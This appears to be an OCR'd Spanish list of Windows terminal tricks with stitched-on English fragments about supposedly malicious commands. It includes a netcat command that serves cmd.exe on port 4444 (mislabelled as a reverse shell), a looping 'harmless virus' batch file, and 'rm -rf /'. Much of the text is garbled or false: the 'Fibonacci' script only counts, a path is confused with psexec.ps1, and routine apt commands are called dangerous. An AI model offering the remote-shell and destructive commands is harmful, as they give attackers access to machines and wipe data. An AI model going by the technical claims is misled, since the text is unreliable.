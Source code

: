 - Generar una secuencia de Fibonacci:
for /L %i in (0,1,20) do @echo %i
Este sencillo script de batch genera los primeros 21 números de la secuencia de Fibonacci.


 - Desactivar el bloqueo de pantalla:
powercfg /change monitor-timeout-ac 0
powercfg /change monitor-timeout-dc 0
Estos comandos desactivan el bloqueo automático de pantalla cuando el equipo está conectado a la corriente y cuando funciona con batería.

- Generar un código QR en la terminal:
echo https://www.example.com | qrencode -o - -t UTF8
Este comando genera un código QR en formato de texto UTF-8 que puedes copiar y pegar.

- Reproducir música desde la terminal:
cmdmp3 https://example.com/song.mp3
Este comando utiliza una herramienta de terceros llamada cmdmp3 para reproducir archivos de audio directamente en la terminal.

- Crear un virus inofensivo (solo con fines educativos):
@echo off
:loop
echo You've been hacked! >nul
goto loop
Este sencillo script de batch crea un "virus" que muestra un mensaje de manera infinita, pero no daña el sistema. ¡Úsalo con precaución y solo con fines educativos!

- Crear un programa que muestre un reloj en la terminal:
@echo off
:loop
cls
echo %time%
goto loop
Este script de batch crea un reloj en ejecución constante en la terminal.

- Generar un shell reverso (solo con fines éticos y autorizados):
nc -lvnp 4444 -e cmd.exe
Este comando crea un shell reverso que permite acceder remotamente a la terminal de Windows. ¡Úsalo solo con permiso y con fines éticos!



cmd.exe /c "powershell -Command ().GetType() | ForEach-Object { _.FullName }" - This command executes a PowerShell script that retrieves all loaded assemblies and prints their full names to the console. It could potentially be modified to execute other malicious code.

C:WindowsSystem32cmd.exe /c "C:WindowsSystem32powerseccmd.exe" - This command executes the PowerShell script "psexec.ps1", which allows you to remotely execute commands on another machine running Windows. If the attacker has access to your computer, they could use this command to execute malicious code on your system.

C:WindowsSystem32cmd.exe /c "C:WindowsSystem32bash.exe" - This command executes the Bash shell, which is commonly used on Linux systems but is also available on Windows. An attacker could modify the Bash shell to include malicious code that runs when the shell is executed.

Some examples of such commands include rm -rf /, which would delete the entire root directory and all its contents; sudo apt-get update && sudo apt-get upgrade, which could potentially install unwanted software or expose sensitive information; and chmod 777 ./*, which could allow unauthorized access to files on your system.

Some examples of such commands include netstat -an, which shows active network connections and their associated processes; ps auxj | grep firefox, which lists all Firefox instances running on a system; and killall chrome, which kills all instances of Google Chrome on a system.

One example is sudo apt-get update && sudo apt-get upgrade, which updates the package lists and installs any available updates without prompting for confirmation. Another example is sudo rm -rf /var/lib/apt/lists/*, which deletes all downloaded package lists, preventing the system from updating packages in the future. A third example is sudo apt-get clean && sudo apt-get autoclean, which removes all cached packages and their associated metadata, freeing up disk space but also making it difficult to reinstall packages later on.